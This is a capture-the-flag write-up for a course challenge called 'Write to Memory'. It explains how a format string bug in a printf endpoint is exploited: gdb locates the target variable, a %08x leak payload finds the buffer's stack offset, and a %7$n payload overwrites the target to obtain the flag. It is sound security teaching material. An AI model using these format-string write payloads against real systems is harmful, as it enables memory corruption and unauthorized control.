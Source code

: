 # Challenge `Write to Memory` writeup

- Vulnerability:
  - _Endpoint has a **format string** vulnerability_
- Where:
  - _`printf` endpoint_
- Impact:
  - _Allows to **read and write the stack values and arbitrary registers** without having the authority to by using the (vulnerable) printf function in the server's code_

## Steps to reproduce

First we need to open a session in the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22192`. After the session is established we can now start plotting what to do.

By analysing the source code provided, we can see that there is a buffer being used to store the input of the user. The buffer has a size of 128, and afterwards, in the function `vuln`, is printed. We can see that the `printf` function is being used to print the buffer, and it has a format string vulnerability. 

This means that we can send `%08x.` characters to print the stack values. We need to see where in the stack our buffer is and update the targets value to something different. To check the **target address** we used the gdb debugger with the corresponding **binary** file. To get it, we made a breakpoint in **vuln** and used the following command:

```bash
gdb-peda$ p &target
$4 = (unsigned int *) 0x804a040 <target>
```

Since we now have the address of the target we now need to know where in the stack the buffer starts. To do this we used the following payload:

```python
msg = (b"AAAA" + b"%08x."*20)
```

We obained: 
```bash
AAAAffffdc7c.0000007f.ffffdcd8.f7ffda74.00000001.f7fd3490.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.
Oops, not quite!
```

Because we used the string `AAAA` as a reference, we can see that the buffer starts in the 7th place. Having this information, we can now try to overwrite the target value. To do this we used the following payload:

```python
msg = (b"\x40\xa0\x04\x08.%7$n")
r.sendline(msg)
print(f"Flag: {r.recvall()}")
r.close()
```

Now, we can see that the server returned the `flag`. This means that we have successfully exploited the vulnerability and achieved our objective.

## Script

The script used can be found [here](write_to_memory_poc.py)